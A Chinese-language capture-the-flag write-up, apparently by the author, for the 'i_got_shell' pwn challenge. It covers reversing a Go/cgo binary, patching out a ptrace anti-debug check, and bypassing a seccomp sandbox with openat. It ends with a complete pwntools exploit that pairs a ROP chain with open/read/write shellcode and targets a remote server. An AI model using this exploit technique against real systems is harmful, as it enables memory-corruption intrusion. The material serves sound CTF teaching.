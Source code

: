 # i_got_shell

## 出题思路

本题的出题思路是
- 使用golang进行cgo的编写，增加逆向难度
- 设置沙箱，禁用execve系列
- ban open, 但可以使用openat
- ban ptrace, 禁用寄存器调试
- 使用ptrace检测gdb调试、沙箱检测
- 初始化时mmap了一段rwxp的地址，可以劫持ret_address执行read最后ret到写入的shellcode

原本还想使用`close(1)`的方式将输出流关闭（需要使用侧信道爆破flag或者重定向），但是考虑到难度，故只开启了`close(2)`


所以本题需要解出的手法是orw

但是由于是golang编译的，所以在反编译的时候较为困难，同时设置了ptrace检测gdb调试，导致关键函数无法调试。解决的办法就是对二进制文件进行patch，将ptrace给nop，这样就可以进行gdb调试了，同时也可以去查看开了什么沙箱。

## 解题步骤

### 0x1

很常规的使用`checksec`检测文件，发现没开pie和canary

![checksec.png](./imgs/checksec.png)

### 0x2

尝试本地运行一下，发现了不得了的东西
- golang pwn
- sandbox

![start.png](./imgs/start.png)

由于提示了本题开启了沙箱，所以使用`seccomp-tools`查看。

不查看不要紧，一查看发现了很怪的事情？！这个`fxxk gdb ptrace`是啥玩意？为啥刚刚可以正常运行，这里就退出了呢？

![fxxk_gdb.png](./imgs/fxxk_gdb.png)


### 0x3

为了分析上述问题出现的原因，我们还是得从ida里逆向分析。

ida7.6及以上对golang实现了只能识别，比7.5版本好看多了。

首先在逆golang程序之前，需要知道两件事情：

- ida中打开的golang程序主函数是`main_main`
- 在`main_main`之前执行的是`main_init`，是golang中比main函数先执行的初始化函数。

来到`main_main`的位置，可以看到和我们刚刚运行的输出是一样的

![ida1.png](./imgs/ida1.png)

按tab看看伪代码，发现了最后执行的`main__Cfunc_cg0l4ng_vu1n_7unc`函数

![ida2.png](./imgs/ida2.png)

这个带有`Cfunc`的函数，其实就是golang调用c的函数，而函数名就是`cg0l4ng_vu1n_7unc`。我们可以在ida左侧的符号表中搜索这个函数

![ida3.png](./imgs/ida3.png)

发现相同的类似函数还有三个，分别是`cg0l4ng_sandbox`、`cg0l4ng_n3ver_kn0vv_th1s_1n1t`。同时右侧分支界面出现了`fxxk gdb ptrace!`的字样，这个就是我们上方使用seccomp-tools异常退出的地方，按tab查看伪代码。

![ida4.png](./imgs/ida4.png)

发现如果`ptrace(PTRACE_TRACEME) == -1`那么就直接退出了。其实这就是最简单的检测gdb调试的方法，我们将这一段给nop掉就能够正常gdb调试和检测sandbox辣！

其实上述伪代码还有两个点：

- 调用了`cg0l4ng_sandbox`
- 有一个`read`函数

大胆猜测一下sandbox函数是用来初始化沙箱的，而read函数就是用来栈溢出的。

### 0x4

我们还剩下一个`cg0l4ng_n3ver_kn0vv_th1s_1n1t`函数没有查看。我们进入然后查看。通过交叉查找发现其实这个函数是在`main_init_0`中被调用的，也就是golang的init函数，比main函数更早执行。

![ida5.png](./imgs/ida5.png)

发现别有洞天。除了三个基本的setbuf之外，还mmap了一段权限为7的地址。也就是可读可写可执行的地址，那么可以用来进行shellcode的注入。

我们在patch了gdb检测后，查看一下sandbox

![sandbox.png](./imgs/sandbox.png)

发现ban了很多函数，其中execve之类的获取shell的是无法使用了，open被ban了可以使用`openat`。同时`read`、`write`都没有ban，那么可以使用open、read、write的技巧，通过注入shellcode获取flag。

### 0x5

通过gdb调试，或者cyclic的计算，我们可以得出read从0x30字节开始就是覆盖ret_address了，同时可以最多写0x28长度的rop链。

我们可以通过先调用read(0, 0x114000, len)的方式向0x114000写入shellcode，然后将最后的ret_address写成0x114000，这样就能执行我们的shellcode了。

问题就来了，0x28长度如何调用read。

我们通过gdb调试，发现在ret的状态rdi是0，rdx是0x60，也就是我们只需要修改rsi为0x114000就可以辣。同时ROPgadget得到的rsi的gadget有两条，随意选择一条利用就可以了。

最后就是编写orw的shellcode了，我这里直接调用shellcraft来生成。

有一个注意的点，我怕0x60编写shellcode的长度不够，所以先调用了一次read(0,  0x114000, 0x100)，这样就能往后写更长的shellcode了。

## exp

```python
from pwn import *

context.arch = "amd64"
context.log_level = "debug"
DEBUG = 0

elf = ELF("../file/i_got_shell_release")
io = process("../file/i_got_shell_release") if DEBUG else remote("101.34.90.86", 20004)

s = lambda data: io.send(data)
sa = lambda word, data: io.sendafter(word, data)

# gadget
pop_rdi_ret = 0x4846E7
pop_rsi_r15_ret = 0x4846E5

# rop
payload = b"b" * 0x28
payload += p64(pop_rsi_r15_ret) + p64(0x114000) + p64(0)  # read(0, 0x114000, 0x48)
payload += p64(elf.plt["read"])
payload += p64(0x114000)  # ret到shellcode
sa("!", payload)

# read写入更多的shellcode
shellcode = shellcraft.read(0, 0x114000, 0x500)
shellcode = asm(shellcode)
s(shellcode)

# orw
shellcode = shellcraft.openat(0, "/flag", 0)
shellcode += shellcraft.read(2, 0x114514, 0x100)
shellcode += shellcraft.write(1, 0x114514, 0x100)
shellcode = b"b" * 0x15 + asm(shellcode)
s(shellcode)

io.interactive()
```